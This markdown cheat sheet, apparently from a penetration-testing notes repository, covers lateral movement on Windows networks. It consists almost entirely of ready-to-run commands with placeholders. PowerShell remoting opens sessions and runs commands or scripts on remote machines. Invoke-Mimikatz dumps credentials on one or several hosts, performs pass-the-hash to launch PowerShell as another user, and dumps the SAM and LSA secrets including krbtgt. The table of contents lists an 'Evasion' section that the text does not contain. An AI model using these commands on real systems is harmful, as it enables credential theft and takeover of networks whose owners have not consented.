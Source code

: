 # Lateral Movement
* [General](#General) 
* [Evasion](#Evasion) 
* [Mimikatz](#Mimikatz) 

## General
#### Connect to machine with administrator privs
```
Enter-PSSession -Computername <COMPUTERNAME>
$sess = New-PSSession -Computername <COMPUTERNAME>
Enter-PSSession $sess
```

#### Execute commands on a machine
```
Invoke-Command -Computername <COMPUTERNAME> -Scriptblock {<COMMAND>} 
Invoke-Command -Scriptblock {<COMMAND>} $sess
```

#### Load script on a machine
```
Invoke-Command -Computername <COMPUTERNAME> -FilePath <PATH>
Invoke-Command -FilePath <PATH> $sess
```

#### Execute locally loaded function on a list of remote machines
```
Invoke-Command -Scriptblock ${function:<function>} -Computername (Get-Content computers.txt)
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Computername (Get-Content computers.txt)
```

## Mimikatz
#### Mimikatz dump credentials on local machine
```
Invoke-Mimikatz -Dumpcreds
```

#### Mimikatz dump credentials on multiple remote machines
```
Invoke-Mimikatz -Dumpcreds -ComputerName @("<COMPUTERNAME 1>","<COMPUTERNAME2>")
```

#### Mimikatz start powershell pass the hash (run as local admin)
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<USERNAME> /domain:<DOMAIN> /ntlm:<HASH> /run:powershell.exe"'
```

#### Mimikatz dump SAM
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'
```

or

```
reg save HKLM\SAM SamBkup.hiv
reg save HKLM\System SystemBkup.hiv
#Start mimikatz as administrator
privilege::debug
token::elevate
lsadump::sam SamBkup.hiv SystemBkup.hiv
```

#### Mimikatz dump lsa (krbtgt to)
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```
